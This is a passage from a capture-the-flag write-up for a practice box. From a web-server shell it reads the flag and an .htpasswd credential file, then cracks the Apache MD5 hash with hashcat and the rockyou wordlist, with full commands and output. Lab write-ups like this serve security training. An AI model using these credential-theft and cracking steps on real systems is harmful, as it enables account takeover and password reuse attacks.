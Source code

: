 ### Reading user flag
```console
www-data@dmv:/var/www/html$ cd admin
www-data@dmv:/var/www/html/admin$ ls -la
total 24
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Nov 25 10:03 ..
-rw-r--r-- 1 www-data www-data   98 Apr 12  2020 .htaccess
-rw-r--r-- 1 www-data www-data   49 Apr 12  2020 .htpasswd
-rw-r--r-- 1 www-data www-data   39 Apr 12  2020 flag.txt
-rw-rw-r-- 1 www-data www-data  202 Apr 12  2020 index.php
www-data@dmv:/var/www/html/admin$ cat flag.txt 
flag{0d84****************46ed7}
```
Lets also get the contents of .htpasswd file as it contains the password hash which might be useful as people tend to reuse the password.

### Content in .htpasswd
```console
www-data@dmv:/var/www/html/admin$ cat .htpasswd
<redacted-username>:$apr1$tb*************4.zLKxWj8mc6y/
```
Now, lets try to crack this hash using hashcat.

## Cracking hash using hashcat
### Finding mode for the hash
```console
local@local:~/Documents/tryhackme/convertmyvideo$ hashcat --example-hashes | grep -i apr -B 1
MODE: 1600
TYPE: Apache $apr1$ MD5, md5apr1, MD5 (APR)
HASH: $apr1$62722340$zGjeAwVP2KwY6MtumUI1N/
```
### Cracking the hash
```
local@local:~/Documents/tryhackme/convertmyvideo$ hashcat -m 1600 hash /usr/share/wordlists/rockyou.txt 
hashcat (v5.1.0) starting...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$apr1$tb*************4.zLKxWj8mc6y/:<redacted-password>     
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Apache $apr1$ MD5, md5apr1, MD5 (APR)
Hash.Target......: $apr1$tb*************4.zLKxWj8mc6y/

```
And the hash is cracked instantly using rockyou.txt.
